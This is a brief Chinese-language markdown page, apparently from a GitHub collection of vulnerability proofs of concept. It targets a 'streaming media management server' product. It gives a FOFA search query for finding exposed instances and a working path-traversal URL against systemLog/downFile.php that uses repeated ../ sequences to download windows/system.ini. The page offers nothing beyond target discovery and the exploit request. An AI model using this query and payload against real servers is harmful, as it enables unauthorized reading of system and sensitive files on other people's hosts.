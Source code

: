 # 通过文件遍历漏洞获取敏感信息

## 资产收集
fofa：title="流媒体管理服务器"

## POC
`http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini`
!()[img/file.png]